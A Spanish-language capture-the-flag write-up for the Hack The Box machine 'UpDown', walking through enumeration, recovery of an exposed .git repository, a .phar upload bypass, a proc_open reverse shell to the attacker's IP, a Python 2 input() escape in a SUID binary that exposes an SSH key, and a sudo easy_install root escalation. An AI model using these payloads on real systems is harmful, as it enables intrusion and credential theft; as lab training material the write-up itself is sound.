





# UpDown

- **Plataforma:** HTB 
- **Fecha de resolución:** 19/11/2025
- **Autor:** Albr_0x4a

---

## Escaneo de Puertos con Nmap

- **Identificar puertos abiertos:**

- **Comando:** nmap -p- -n -Pn --min-rate 5000 -sS $IP

- **Identificar servicios y versiones en los puertos abiertos:**

- **Comando:** nmap -p22,80 -n -Pn -sCV $IP  

```bash
# Nmap 7.94SVN scan initiated Tue Nov 18 10:47:36 2025 as: nmap -p22,80 -n -Pn -sCV -oN target 10.10.11.177
Nmap scan report for 10.10.11.177
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:1f:98:d7:c8:ba:61:db:f1:49:66:9d:70:17:02:e7 (RSA)
|   256 c2:1c:fe:11:52:e3:d7:e5:f7:59:18:6b:68:45:3f:62 (ECDSA)
|_  256 5f:6e:12:67:0a:66:e8:e2:b7:61:be:c4:14:3a:d3:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Is my Website up ?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 18 10:47:46 2025 -- 1 IP address (1 host up) scanned in 10.35 seconds
```
## Enumeración

- Empezamos entrando a la página web, la cual posee una funcionalidad para comprobar si un sitio web está corriendo o no, en la parte inferior de la página vemos un dominio `siteisup.htb` que agregamos a nuestro archivo `/etc/hosts`



- Al no encontrar nada interesante en la página vamos a realizar fuzzing para identificar si se está utilizando `Vhost`:

```bash
❯ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://siteisup.htb/ -H "Host: FUZZ.siteisup.htb" -t 100 -c  -fw 186

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://siteisup.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.siteisup.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 186
________________________________________________

dev                     [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 6980ms]
```

- Encontramos el subdominio `dev` el cual añadimos a nuestro archivo `/etc/hosts` para poder acceder al servicio web que está corriendo en `dev.siteisup.htb`

- Al intentar entrar a `dev.siteisup.htb`, nos devuelve un código de estado `403`, lo que significa que nos está denegando el acceso.

- Sigamos enumerando el sitio `siteisup.htb`, para esto vamos a realizar fuzzing de directorios:

```bash

❯ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://$IP/FUZZ" -t 50 -c -fw 186

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.177/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 186
________________________________________________

dev                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 102ms]
```

- Encontramos un directorio `dev`, en el cual continuaremos investigando:
  
```bash
❯ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://$IP/dev/FUZZ" -t 50 -c -e .txt,.md,.xml -fw 186,1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.177/dev/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .txt .md .xml 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 186,1
________________________________________________

.git                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 102ms]
```

- Dentro del directorio `dev` encontramos otro directorio `.git`, esto es un gran hallazgo, ya que podemos con herramientas como [GitHacker](https://github.com/WangYihang/GitHacker) recuperar todo el repositorio.

- Para realizar esto instalamos la herramienta y utilizamos el siguiente comando:

    ` githacker --url http://$IP/dev/.git/ --output-folder results`

- Esto nos creara un directorio `results` en el cual recuperará el repositorio expuesto, donde podremos acceder a todo el historial de commits del proyecto:
  
- Dentro de este directorio podemos ver todo el código del sitio:

```bash
❯ pwd
/home/albert/Desktop/Albert/HTB/Machines/content/results/72f54b2a0849c4d2cdc0784102625d71
❯ ls -a
 .   ..   .git   .htaccess   admin.php   changelog.txt   checker.php   index.php   stylesheet.css
```

- Después de un rato revisando el código, llaman varias cosas la atención:
 
- El archivo `.htaccess`, está configurado para denegar todas las solicitudes que no contengan el header `Special-Dev: only4dev`, este parece ser el motivo por el cual no podemos acceder a `dev.siteisup.htb`, y nos confirma estos archivos pertenecen a ese sitio web.
  
```bash
❯ cat .htaccess
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```

- Podemos configurar burpsuite para que automáticamente nos añada este header a todas nuestras solicitudes:
  


- Ahora podemos acceder a `dev.siteisup.htb` y vemos que esta página posee una funcionalidad para subir archivos.

- Revisamos el archivo `index.php` y observamos que se está recibiendo un parámetro `page` que después de pasar un simple filtro para evitar que apunte a archivos del sistema, se le añade la extensión `.php`, esto nos es de mucha utilidad ya que si logramos subir algún archivo malicioso podríamos apuntar hacia este mediante esta funcionalidad. Además, si no se recibe ningún parámetro, se llama al archivo `checker.php`.
  
```bash
❯ cat index.php
<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
<?php
	define("DIRECTACCESS",false);
	$page=$_GET['page'];
	if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){
		include($_GET['page'] . ".php");
	}else{
		include("checker.php");
	}	
?>
```

- Al revisar el archivo `checker.php`, encontramos lo siguiente:
    
```php
if($_POST['check']){
  
# File size must be less than 10kb.
if ($_FILES['file']['size'] > 10000) {
        die("File too large!");
}
$file = $_FILES['file']['name'];
	
# Check if extension is allowed.
$ext = getExtension($file);
if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
	die("Extension not allowed!");
}
  
# Create directory to upload our file.
$dir = "uploads/".md5(time())."/";
if(!is_dir($dir)){
    mkdir($dir, 0770, true);
}
  
# Upload the file.
$final_path = $dir.$file;
move_uploaded_file($_FILES['file']['tmp_name'], "{$final_path}");
	
# Read the uploaded file.
$websites = explode("\n",file_get_contents($final_path));
	
foreach($websites as $site){
	$site=trim($site);
	if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
		$check=isitup($site);
		if($check){
			echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
		}else{
			echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
		}	
	}else{
		echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
	}
}
	
# Delete the uploaded file.
@unlink($final_path);
}
```
- Analizando el código podemos ver que se están utilizando una lista negra para filtrar por extensiones de archivos:
  
  - Aunque se filtran por extensiones comunes de php, no se contempla aquellos archivos con extensión `.phar`, que se utiliza para empaquetar código php en un archivo y ejecutarlo sin la necesidad de descomprimirlo. Esto significa que podríamos subir este tipo de archivos y ejecutar código sin problemas.
  
 ```php
if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
die("Extension not allowed!");
```

- Si el archivo pasa este filtro, se crea un directorio dentro de `uploads/` utilizando como nombre el hash md5 de la marca de tiempo actual, se guarda el archivo en este directorio y se lee linea por linea cada url para comprobar si los sitios webs se encuentran activos. Por último, se elimina el archivo:

```php
# Create directory to upload our file.
$dir = "uploads/".md5(time())."/";
if(!is_dir($dir)){
    mkdir($dir, 0770, true);
}
  
# Upload the file.
$final_path = $dir.$file;
move_uploaded_file($_FILES['file']['tmp_name'], "{$final_path}");
	
# Read the uploaded file.
$websites = explode("\n",file_get_contents($final_path));
	
foreach($websites as $site){
	$site=trim($site);
	if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
		$check=isitup($site);
		if($check){
			echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
		}else{
			echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
		}	
	}else{
		echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
	}
}
	
# Delete the uploaded file.
@unlink($final_path);
}
```

## Obteniendo RCE y Acceso al Sistema

- Para aprovecharnos de este mecanismo de subida de archivos, podemos crear un archivo `.phar`, con código malicioso. Para esto vamos a utilizar el siguiente código php:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.php', '<?php system("id"); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

- Almacenamos el código anterior en un archivo `shell.php` y creamos el archivo `.phar` de la siguiente forma:

```bash
❯ ls
 shell.php

❯ php --define phar.readonly=0 shell.php
❯ ls
 shell.phar   shell.php
```

- Subimos el archivo y accedemos mediante el parametro `page` visto en el archivo `index.php`: 



- Como podemos ver, no hemos obtenido nada. Esto puede ser porque nuestro archivo este fallando o también que algunas funciones php estén deshabilitadas y por ello al intentar utilizar la función `system` esta no se ejecute.

- Para confirmar si nuestro archivo está funcionando y si hay funciones deshabilitadas, podemos ejecutar `phpinfo()`, que nos mostrara toda la configuración php.

- Para esto cambiamos nuestro código y realizamos los mismos pasos anteriores:

```php
<?php
$phar = new Phar('phpinfo.phar');
$phar->startBuffering();
$phar->addFromString('phpinfo.php', '<?php phpinfo(); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```


- De manera exitosa logramos ver toda la configuración php, lo que confirma que nuestro archivo `.phar` funciona. Ahora podemos buscar en las configuraciones para ver que funciones php están deshabilitadas:
    - Como sospechabamos se encuentran deshabilitadas multiples funciones, entre ellas `system`.




- Después de una rápida búsqueda en internet sobre como bypasear esto nos encontramos con la herramienta [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser), la cual analiza el phpinfo y nos muestra funciones que no se encuentran deshabilitadas y que se pueden utilizar para ejecutar código.

- Para utilizar la herramienta podemos pasarle directamente la url hacia la salida de phpinfo, o podemos pasarle un archivo que contenga esta misma información. Por motivos de facilidad, puesto que el script utiliza python 2 y tuve problemas con la librería `requests`, decidí eliminar la línea de código donde se importa esta librería y utilizar la opción de pasarle un archivo. Ten en cuenta que si lo vas a hacer mediante la url tienes que modificar el código para agregar el header `Special-Dev: only4dev`, necesario para acceder al sitio web.

- Empezamos guardando en un archivo la salida de la función phpinfo:



- Luego ejecutamos el script pasandole el archivo descargado:

```bash
❯ python2 dfunc-bypasser.py --file phpinfo.html


                                ,---,     
                                  .'  .' `\   
                                  ,---.'     \  
                                  |   |  .`\  | 
                                  :   : |  '  | 
                                  |   ' '  ;  : 
                                  '   | ;  .  | 
                                  |   | :  |  ' 
                                  '   : | /  ;  
                                  |   | '` ,/   
                                  ;   :  .'     
                                  |   ,.'       
                                  '---'         


			authors: __c3rb3ru5__, $_SpyD3r_$


Please add the following functions in your disable_functions option: 
proc_open
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
```

- La salida de este script nos muestra que tenemos una vía para ejecutar código utilizando la función `proc_open`, la cual se encuentra habilitada. Buscando en internet sobre como ejecutar código con esta función encontré el siguiente articulo que lo explica de forma bastante clara: [enlace](https://www.sitepoint.com/proc-open-communicate-with-the-outside-world/)

- Así quedaría nuestro código para ejecutar una reverse shell:

```php
<?php

// descriptor array

$desc = array(

    0 => array('pipe', 'r'), // 0 is STDIN for process

    1 => array('pipe', 'w'), // 1 is STDOUT for process

    2 => array('file', '/tmp/error-output.txt', 'a') // 2 is STDERR for process

);

// command to invoke markup engine

$cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'";

// spawn the process

$p = proc_open($cmd, $desc, $pipes);
```

- Este código lo incorporamos en nuestro archivo `shell.php`, para crear el archivo `.phar` y quedaría de la siguiente forma:

```bash
❯ cat shell.php
<?php
$phar = new Phar('revshell.phar');
$phar->startBuffering();
$phar->addFromString('revshell.php', '<?php $desc = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("file", "/tmp/error.txt", "a")); $cmd = "bash -c \'bash -i >& /dev/tcp/10.10.14.5/443 0>&1\'"; $p = proc_open($cmd, $desc, $pipes); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

❯ php --define phar.readonly=0 shell.php
❯ ls
 content   nmap   scripts   revshell.phar   shell.php
```

- Luego nos ponemos en escucha con `netcat`, subimos el archivo y accedemos a el de la misma forma que anteriormente.

- Al acceder al archivo recibimos la conexión en nuestra máquina:
  
```bash
❯ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.177 39120
bash: cannot set terminal process group (931): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev$ whoami
whoami
www-data
```

## Movimiento Lateral

- Una vez dentro del sistema empezamos a enumerar a ver que encontramos que nos sea de utilidad.

- Al inspeccionar el directorio `/home/` podemos ver que existe un usuario `developer`:

```bash
www-data@updown:/home$ ls
developer
```

- Accedemos al directorio de este usuario y vemos otro directorio `dev/` y la primera flag, al intentar ver el contenido de la flag nos percatamos de que no tenemos permisos para esto:

```bash
www-data@updown:/home$ cd developer
www-data@updown:/home/developer$ ls
dev  user.txt
www-data@updown:/home/developer$ cat user.txt
cat: user.txt: Permission denied
www-data@updown:/home/developer$ 
```

- También al listar todos los directorios podemos ver el directorio `.ssh`, al cual no tenemos permisos de acceder, pero si podemos obtener alguna clave ssh podríamos conectarnos como el usuario `developer`:

```bash
www-data@updown:/home/developer$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  .local  .profile  .ssh  dev  user.txt
```

- Entramos al directorio `dev/` y vemos dos archivos:
  
```bash
www-data@updown:/home/developer/dev$ ls -l
total 24
-rwsr-x--- 1 developer www-data 16928 Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data   154 Jun 22  2022 siteisup_test.py
```

- Llama la atención el primer archivo ya que posee el bit suid activado, lo que hace que cuando se ejecute, este lo haga con los permisos del propietario, en este caso el usuario `developer`. 

- Después de ejecutar ambos archivos, y ver que hacen exactamente lo mismo, lo más probable es que el archivo `siteisup` es un binario generado a partir del script `siteisup_test.py` el cual tiene el siguiente contenido:

```python
www-data@updown:/home/developer/dev$ cat siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```

- Analizando el script observamos que se trata de python 2, si investigamos en internet sobre las diferentes funciones que se utilizan en el script para python 2, encontraremos que la función `input` posee una vulnerabilidad de ejecución de código, como podemos ver en el siguiente [articulo](https://security.szurek.pl/en/why-you-shouldnt-use-input-function/)

- Basicamente a la hora de introducir la url, podemos introducir lo siguiente para ejecutar comandos:
  
  `__import__('os').system('<command>')`

- Ahora vamos a explotar esta vulnerabilidad pero con la idea de lanzar una shell como el usuario `developer`, lo que logramos de manera exitosa:

```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('/bin/bash')    
__import__('os').system('/bin/bash')

developer@updown:/home/developer/dev$ whoami
developer
```

- Ahora podemos entrar al directorio `.ssh`, y obtener la clave ssh para asi podernos conectar de forma más estable.
  
```bash
developer@updown:/home/developer/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
```

- Copiamos el contenido del archivo `id_rsa`, creamos otro del mismo nombre en nuestra máquina y pegamos el contenido copiado.

- Luego le asignamos permisos `600` para que funcione y nos conectamos por ssh utilizando esta clave:

```bash
❯ chmod 600 id_rsa
❯ ssh -i id_rsa developer@10.10.11.177
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Nov 19 13:21:39 UTC 2025

  System load:           0.06
  Usage of /:            49.9% of 2.84GB
  Memory usage:          17%
  Swap usage:            0%
  Processes:             233
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.177
  IPv6 address for eth0: dead:beef::250:56ff:feb0:5c02


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Nov 19 13:21:24 2025 from 10.10.14.5
developer@updown:~$ 
```

- Ahora podemos leer el contenido de la primera flag y empezar a enumerar para escalar privilegios:

```bash
developer@updown:~$ ls
dev  user.txt
developer@updown:~$ cat user.txt
*******************************
```

## Escalada de Privilegios

- Al listar los permisos sudo del usuario `developer`, vemos que podemos ejecutar `/usr/local/bin/easy_install` con privilegios administrativos sin necesidad de introducir ninguna contraseña:

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

- Al buscar por este archivo en la página [GTFOBins](https://gtfobins.github.io/), encontramos una via para escalar privilegios de forma sencilla:
  
  - Basicamente introducimos la siguiente línea en un archivo  `setup.py` y pasamos como argumento el directorio donde se encuentra este archivo:

    `import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')`

- Al realizar el procedimiento anterior obtuvimos una shell como usuario root:

```bash
developer@updown:/tmp$ mkdir exploit
developer@updown:/tmp$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > exploit/setup.py

developer@updown:/tmp$ sudo /usr/local/bin/easy_install ./exploit/
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing 
Writing /tmp/exploit/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/exploit/egg-dist-tmp-Hb5hn3
# whoami
root
```

- Ahora podemos obtener la última flag:

```bash
# cd /root
# ls
root.txt  snap
# cat root.txt
*******************************
```